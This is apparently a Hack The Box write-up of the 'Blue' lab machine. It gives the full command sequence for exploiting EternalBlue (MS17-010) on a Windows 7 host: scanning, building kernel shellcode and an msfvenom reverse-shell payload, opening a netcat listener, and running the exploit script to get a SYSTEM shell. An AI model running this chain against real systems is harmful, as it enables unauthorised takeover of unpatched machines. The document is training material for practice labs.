





# Blue


## Initial Enumeration

Like any other target, we'll start off with a quick port scan to see what we're working with:

```bash
nmap -sV 10.10.10.40
```



Judging by this output and the name of the box, It's pretty safe to assume we're looking at [Eternal Blue](https://en.wikipedia.org/wiki/EternalBlue). We can use some NSE scripts to verify that for us though:

```bash
nmap -p 139,445 --script=smb-vuln* 10.10.10.40
```



Bingo, now we just have to find ourselves an exploit. While we could easily do this with Metasploit, I'd prefer to go through the steps (semi)manually. Throughout my OSCP I've found this [repo](https://github.com/worawit/MS17-010) to work pretty well. So first we'll clone the repo and run their checker script to verify the vulnerability: 

```bash
git clone https://github.com/worawit/MS17-010.git
cd MS17-010
./checker.py 10.10.10.40
```



## Exploitation

Looking at the output it seems like we are good to continue down this path. Our next step will be to generate the payload we want to be executed by the exploit, which will be our reverse shell. The automation scripts in the this repo build the shellcode for both `x86` and `x64`, but for our purposes we'll only generate one stageless payload for `x64` (this is just an educated guess). If you take a look at the script `shellcode/shell_prep.sh` you can see what needs to be done. Basically we use `nasm` to compile the kernel shell code, generate our reverse shell with `msfvenom`, then combine the two:

```bash
cd shellcode

nasm -f bin eternalblue_kshellcode_x64.asm -o kernel.bin

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o reverse.bin EXITFUNC=thread LHOST=$(tunip) LPORT=4443

cat kernel.bin reverse.bin > payload.bin
```


`tunip` is aliased to `ifconfig tun0 | sed -n '2 p' | awk '{print \$2}'`. This is simply a shortcut to get my current Hack The Box vpn ip address.


With our payload generated, we just need to start a netcat listener on port `4443` and fire off the exploit (pro tip: tmux makes managing the different terminals for this a breeze). From the output of `checker.py` we also know the operating system is Windows 7, so we'll use `eternalblue_exploit7.py`:

```bash
# In tmux pane A:
nc -nvlp 4443

# In tmux pane B:
python eternalblue_exploit7.py 10.10.10.40 shellcode/payload.bin

```

This gives us a reverse shell as `nt authority\system` and we are able to read the root and user flags:


